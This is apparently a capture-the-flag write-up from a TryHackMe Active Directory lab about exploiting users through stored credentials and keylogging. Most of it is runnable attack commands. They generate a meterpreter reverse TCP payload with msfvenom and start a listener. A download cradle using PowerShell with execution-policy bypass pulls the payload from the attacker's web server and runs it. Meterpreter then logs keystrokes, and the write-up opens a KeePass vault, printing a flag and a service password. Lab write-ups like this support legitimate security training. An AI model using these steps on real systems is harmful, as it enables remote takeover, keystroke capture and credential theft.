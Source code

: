 # Exploiting AD users

Users are, unfortunately, often the weakest link in the security chain. Just think about weak passwords and bad 
habits, such as granting overly permissive permissions. It would be ignorant and ineffective to overlook this 
attack surface:

* Credential Management - How users store their credentials. In AD, this is quite important since users may have 
multiple sets of credentials and remembering all of them can be a hassle.
* Keylogging - Often, during exploitation, we need to understand how normal users interact with a system. Together 
with screengrabs, keylogging can be a useful tool to gain this understanding from an attacker's perspective.

Using our WinRM shell from [Kerberos delegation](kerberos.md), we do some post-exploit enumeration and come across a 
`.kdbx` file in `C:\Users\trevor.local\Documents`. It's likely a password vault that's been encrypted with a strong 
password. 

## Payload

Generate a meterpreter payload:

    msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.50.57.175 LPORT=443 -f psh -o pwn.ps1

Start a listener:

```text
sudo msfconsole

msf6> use exploit/multi/handler
msf6> set payload windows/x64/meterpreter_reverse_tcp
msf6> set LHOST kali-vpn-ip
msf6> set LPORT 443
msf6> run
```

## Transfer the payload to the target

Start a Python web server on Kali:

    sudo python3 -m http.server 80

Download the file onto `THMSERVER1` via the `WinRM` session and execute it:

    powershell.exe -ep bypass

Create a web client object:

    $wc = New-Object Net.WebClient

Download `pwn.ps1` from Kali and save it in the current directory:

    $wc. DownloadFile('http://10.50.57.175/pwn.ps1', "$PWD\pwn.ps1")
    .\pwn.ps1

Start the keylogger

    meterpreter > keyscan_start

Dump captured keystrokes

    meterpreter > keyscan_dump

Stop the keylogger

    meterpreter > keyscan_stop

## Get flag

```text
sudo apt install -y kpcli
kpcli

# Password is: Imreallysurenoonewillguessmypassword
kpcli:/> open PasswordDatabase.kdbx
kpcli:/> ls
kpcli:/> ls PasswordDatabase/*
kpcli:/> show -f -a PasswordDatabase/General/Flag

THM{AD.Users.Can.Give.Up.Good.Secrets}

kpcli:/> show -f -a PasswordDatabase/General/svcServMan

Sup3rStr0ngPass!@
```